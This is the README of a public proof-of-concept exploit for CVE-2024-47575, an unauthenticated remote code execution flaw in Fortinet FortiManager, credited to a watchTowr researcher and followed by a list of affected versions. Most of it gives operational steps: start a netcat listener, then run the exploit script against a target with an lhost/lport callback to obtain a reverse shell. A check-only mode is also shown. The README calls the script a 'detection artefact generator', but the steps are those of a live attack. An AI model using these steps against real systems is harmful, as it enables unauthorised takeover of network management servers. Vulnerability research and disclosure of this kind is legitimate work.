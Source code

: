 # CVE-2024-47575
Fortinet FortiManager Unauthenticated Remote Code Execution AKA FortiJump CVE-2024-47575

 See our [blog post](http://labs.watchtowr.com/hop-skip-fortijump-fortijumphigher-cve-2024-23113-cve-2024-47575) for technical details



To begin, establish your ncat session:

```
nc -lvvnp 80
```

Then, execute our detection artefact generator:

```
python3 CVE-2024-47575.py --target 192.168.1.110 --lhost 192.168.1.53 --lport 80 --action exploit
```

To check vulnerability alone, use the following options:
```
python3 CVE-2024-47575.py --target 192.168.1.110 --action check
```

# Affected Versions

```
FortiManager 7.6.0
FortiManager 7.4.0 through 7.4.4
FortiManager 7.2.0 through 7.2.7
FortiManager 7.0.0 through 7.0.12
FortiManager 6.4.0 through 6.4.14
FortiManager 6.2.0 through 6.2.12
FortiManager Cloud 7.4.1 through 7.4.4
FortiManager Cloud 7.2.1 through 7.2.7
FortiManager Cloud 7.0.1 through 7.0.12
FortiManager Cloud 6.4
```

# Exploit authors

This exploit was written by [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) of [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber)


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber

